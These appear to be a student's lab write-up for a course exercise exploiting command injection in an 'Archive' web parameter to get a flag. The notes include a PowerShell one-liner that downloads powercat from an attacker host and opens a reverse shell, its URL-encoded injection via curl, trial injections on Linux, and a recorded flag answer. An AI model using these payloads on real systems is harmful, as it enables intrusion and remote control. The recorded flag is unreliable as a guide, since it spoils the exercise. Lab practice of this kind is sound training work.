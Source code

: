 - Craft PowerShell reverse shell
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.45.202 -p 4444 -e powershell
```
```bash
# Send URL encoded payload
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.202%20-p%204444%20-e%20powershell' http://192.168.193.189:8000/archive
```
```powershell
# Get flag
dir ..\..\Desktop
	    Directory: C:\Users\Administrator\Desktop	
	Mode                 LastWriteTime         Length Name                                                                 
	----                 -------------         ------ ----                                                                 
-a----         2/21/2024   1:39 PM             38 secrets.txt                                                          

type ..\..\Desktop\secrets.txt
```

> Answer:  OS{6f1d4d85dfb4863a7b89c82913322c39}


# 2
2. For this exercise the _Mountain Vaults_ application runs on Linux (VM #2). Exploit the command injection vulnerability like we did in this section, but this time use Linux specific commands to obtain a reverse shell. As soon as you have a reverse shell use the **sudo su** command to gain elevated privileges. Once you gain elevated privileges, find the flag located in the **/opt/config.txt** file.

- Test various cmd injections to see what'll trigger successfully
```bash
# No error messages, but unsuccessful
curl -X POST --data 'Archive=git version;ifconfig' http://192.168.193.16/archive      
	Repository successfully cloned with command: git version and output: git version 2.20.1

# Same
curl -X POST --data 'Archive=git version; whoami' http://192.168.193.16/archive
	Repository successfully cloned with command: git version and output: git version 2.20.1

# Error - thinking maybe they don't have ifconfig
curl -X POST --data 'Archive=ifconfig' http://192.168.193.16/archive 
	An error occured with execution: exit status 127 and

# Success!    (Archive=git%3Bip a also works)
curl -X POST --data 'Archive=ip a' http://192.168.193.16/archive
	Repository successfully cloned with command: ip a and output: 1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
	    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
	    inet 127.0.0.1/8 scope host lo
	       valid_lft forever preferred_lft forever
	28: eth0@if29: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
	    link/ether 02:42:ac:1a:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
	    inet 172.26.0.2/16 brd 172.26.255.255 scope global eth0
	       valid_lft forever preferred_lft forever 
```
